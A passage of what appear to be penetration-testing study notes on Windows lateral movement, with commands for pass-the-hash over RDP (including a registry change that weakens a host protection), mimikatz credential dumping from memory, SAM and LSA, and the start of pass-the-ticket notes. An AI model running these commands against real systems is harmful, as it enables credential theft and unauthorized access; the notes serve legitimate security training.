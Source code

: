   * PtH with RDP in Linux:

    ```sh
    # this works only if Restricted Admin Mode, which is disabled by default
    # is enabled on target host

    # to enable Restricted Admin Mode to allow PtH
    # on target Windows machine
    reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

    # on attacker machine
    xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
    ```
  
  * Once we have access to the target as local administrator, we can use tools like ```mimikatz``` to dump more hashes from current session:

    ```sh
    mimikatz.exe

    privilege::debug

    sekurlsa::logonpasswords

    lsadump::sam

    lsadump::lsa /patch

    # from the above, if we get access to a user hash
    # we can do PtH attacks
    # PoC for 'david' user, for example
    dir \\dc01\david
    ```

* PtT (Pass the Ticket) from Windows:

  * attack that uses a stolen Kerberos ticket to move laterally instead of hash

  * TGT (ticket granting ticket) is the first ticket obtained on a Kerberos system, and it permits client to obtain more tickets through TGS (ticket granting service) for using services

  * harvesting Kerberos tickets:

    ```cmd
    # on target Windows
    mimikatz.exe
